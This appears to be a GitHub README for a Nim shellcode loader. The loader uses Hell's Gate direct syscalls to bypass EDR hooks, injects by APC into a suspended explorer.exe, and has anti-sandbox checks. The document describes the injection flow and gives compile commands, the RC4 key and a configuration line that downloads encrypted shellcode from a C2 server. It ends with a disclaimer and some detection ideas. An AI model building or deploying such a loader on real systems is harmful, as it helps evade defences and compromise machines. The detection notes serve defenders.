# Shellcode Injection via Direct Syscalls (Hell's Gate)

## Overview

This project demonstrates advanced Windows process injection techniques using direct system calls to bypass EDR (Endpoint Detection and Response) hooks. It implements the "Hell's Gate" technique to extract syscall numbers directly from `ntdll.dll` and execute them without going through hooked API functions.

## Features

- **Direct Syscall Execution**: Bypasses userland API hooks by invoking syscalls directly
- **Hell's Gate Technique**: Dynamically extracts syscall numbers from ntdll.dll at runtime
- **Process Hollowing**: Creates a suspended process and injects shellcode via APC (Asynchronous Procedure Call)
- **RC4 Encryption**: Downloads and decrypts shellcode from a remote server
- **Anti-Sandbox**: Basic memory checks to detect virtual environments

## Technical Implementation

### Direct Syscalls

The project implements three core NT functions via direct syscalls:

1. **NtAllocateVirtualMemory** - Allocates memory in the target process
2. **NtWriteVirtualMemory** - Writes shellcode to allocated memory
3. **NtQueueApcThread** - Queues an APC to execute the shellcode

### Syscall Stub Generation

For each syscall, the code:
1. Extracts the syscall number from the corresponding function in ntdll.dll
2. Validates the function prologue pattern (`4C 8B D1 B8`)
3. Generates a minimal assembly stub in executable memory
4. Executes the syscall directly

### Injection Flow

```
1. Download encrypted shellcode from C2 server
2. Decrypt using RC4
3. Create suspended explorer.exe process
4. Allocate RWX memory via NtAllocateVirtualMemory (syscall)
5. Write shellcode via NtWriteVirtualMemory (syscall)
6. Queue APC via NtQueueApcThread (syscall)
7. Resume thread to trigger execution
```

## Requirements

- Windows 10/11 (x64)
- Nim compiler
- Required Nim packages:
  - `winim`
  - `httpclient`
  - `RC4`

```bash
nimble install winim RC4
```

## Compilation
Debug :
```bash
nim c main.nim
```

For smaller binary size:
```bash
nim c -d:stealth3 main.nim
```

## Configuration

Update the C2 server URL in the code:
```nim
data = client.getContent("http://192.168.1.19:8080/api_local")
```

Update the RC4 key:
```nim
key : string = "kernel32.dll"
```

## Disclaimer

⚠️ **FOR EDUCATIONAL PURPOSES ONLY**

This code is provided for educational and research purposes to understand advanced malware techniques and improve defensive security measures. Unauthorized use of this code for malicious purposes is illegal and unethical.

- Only use in authorized environments (your own lab, with explicit permission)
- Never deploy against systems you don't own or have written permission to test
- The authors assume no liability for misuse of this code

## Detection & Defense

Security professionals can detect this technique by:

- Monitoring for direct syscall execution patterns
- Detecting unusual assembly stub creation in memory
- Analyzing process creation with suspended threads
- Monitoring APC queue operations
- Network traffic analysis for encrypted payload downloads

## License

This project is licensed under the MIT License - see the LICENSE file for details.

This project was generated in part with AI | Contributions and improvements welcome
